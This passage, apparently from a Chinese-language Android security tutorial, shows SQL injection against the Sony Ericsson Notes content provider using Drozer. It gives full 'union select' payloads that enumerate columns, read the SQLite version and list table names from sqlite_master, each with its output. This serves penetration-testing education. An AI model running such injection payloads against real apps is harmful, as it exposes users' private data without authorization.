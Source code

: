 前面的查询已按预期执行，并返回与 id`1`关联的行。正如我们使用 adb 方法所做的一样，让我们用 UNION 编写一个新的`select`语句，如下所示：

```
dz> run app.provider.query content://com.sonyericsson.notes.provider.Note/notes/ --selection "_id=1=1)union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14 from sqlite_master where (1=1"

| isdirty | body        | account_id | voice_path | doodle_path | deleted | modified      | sync_uid | title    | meta_info | _id | created       | background                                                   | usn |
| 1       | 2           | 3          | 4          | 5           | 6       | 7             | 8        | 9        | 10        | 11  | 12            | 13                                                           | 14  |
| 1       | test note_1 | 1          |            |             | 0       | 1448466224766 | null     | No title | 
false
0  | 1   | 1448466224766 | com.sonyericsson.notes:drawable/notes_background_grid_view_1 | 0   |

dz>

```

正如我们在前面的输出中所看到的，我们可以看到从 1 到 14 的数字。我们现在可以替换这些数字中的任何一个来从数据库中提取内容。

将列号`5`替换为`sqlite_version()`将打印数据库版本，如下所示：

```
dz> run app.provider.query content://com.sonyericsson.notes.provider.Note/notes/ --selection "_id=1=1)union select 1,2,3,4,sqlite_version(),6,7,8,9,10,11,12,13,14 from sqlite_master where (1=1"

| isdirty | body        | account_id | voice_path | doodle_path | deleted | modified      | sync_uid | title    | meta_info | _id | created       | background                                                   | usn |
| 1       | 2           | 3          | 4          | 3.7.11      | 6       | 7             | 8        | 9        | 10        | 11  | 12            | 13                                                           | 14  |
| 1       | test note_1 | 1          |            |             | 0       | 1448466224766 | null     | No title | 
false
0  | 1   | 1448466224766 | com.sonyericsson.notes:drawable/notes_background_grid_view_1 | 0   |

dz>

```

现在，使用 Drozer 获取表名就像将列号`5`替换为`tbl_name`一样简单。下面显示的是以下命令。请注意，我们正在查询**`sqlite_master`**获取表名：****

 ****```
dz> run app.provider.query content://com.sonyericsson.notes.provider.Note/notes/ --selection "_id=1=1)union select 1,2,3,4,tbl_name,6,7,8,9,10,11,12,13,14 from sqlite_master where (1=1"

| isdirty | body        | account_id | voice_path | doodle_path      | deleted | modified      | sync_uid | title    | meta_info | _id | created       | background                                                   | usn |
| 1       | 2           | 3          | 4          | accounts         | 6       | 7             | 8        | 9        | 10        | 11  | 12            | 13                                                           | 14  |
| 1       | 2           | 3          | 4          | android_metadata | 6       | 7             | 8        | 9        | 10        | 11  | 12            | 13                                                           | 14  |
| 1       | 2           | 3          | 4          | notes            | 6       | 7             | 8        | 9        | 10        | 11  | 12            | 13                                                           | 14  |
| 1       | test note_1 | 1          |            |                  | 0       | 1448466224766 | null     | No title | 
false
0  | 1   | 1448466224766 | com.sonyericsson.notes:drawable/notes_background_grid_view_1 | 0   |
